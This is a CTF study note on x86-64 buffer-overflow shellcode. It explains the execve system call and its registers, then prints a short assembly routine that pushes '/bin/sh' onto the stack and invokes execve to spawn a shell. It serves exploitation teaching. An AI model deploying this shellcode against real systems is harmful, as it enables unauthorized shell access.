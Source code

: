 ```yaml
---
title: Simple Buffer Overflow - 0x02
tags: [CTF, PWN, NTUSTISC]

---
```


# Simple Buffer Overflow - 0x02
###### tags: `CTF` `PWN`

## Why we'd like to create shellcode?
In pwn problem, most of the program don't have the secret function that we can take the shell. Thus, we can create a shellcode by ourselves and use `bof` to overlap the original address by shellcode address. Then we can take the shell.

## How to create a shellcode in BOF?
In lecture [0x01](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/HJm5x_Ocs), we can see sub-function that create a shell using command:
```bash!
execve("/bin/sh", (char *[]){0}, (char *[]){0});
```
According to [Linux System Call Table for x86 64](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/), we can see that <font color='FF0000'>`execve`</font> is a system call and the parameter sequence is as the same as [normal calling convention](https://en.wikipedia.org/wiki/X86_calling_conventions).
* Note that in `x86-64` →
    > The kernel interface uses `RDI`, `RSI`, `RDX`, `R10`, `R8` and `R9`. In C++, this is the first parameter. 


| %rax | System Call | %rdi | %rsi | %rdx | %r10 | %r8 | %r9 |
| :--------: | :--------: | :--------: |:-:|:-:|:-:|:-:|:-:|
| 59(0x3B)     | sys_execve     | const char \*filename|const char \*const argv[]|const char \*const envp[]||||

Therefore, `%rdi` store address of `/bin/sh` and `%rsi`, `%rdx` can temporarily set `0`

### Implement
```assembly!
mov    rbx, 0x68732f6e69622f
push   rbx
mov    rdi, rsp
xor    rsi, rsi
xor    rdx, rdx
mov    rax, 0x3b
syscall
```
* We can use [hex2text tool](https://string-functions.com/hex-string.aspx) to parse .`0x68732f6e69622f` and we obtain `?hs/nib/`
* First 3 line, we push `/bin/sh` to stack and `%rsp` is the top of the stack address, so we `%rdi` will obtain `/bin/sh` address from `%rsp`
* Then, let `%rsi` and `%rdx` be `0`
* To set `%rax` to right system call number, that is `0x3b`
* Finally, we did it!!!

![](https://imgur.com/EtW8yZu.png)

## Reference
[NTUSTISC - Pwn Basic 2 [2019.03.19]](https://youtu.be/PBgHHWtjtFA)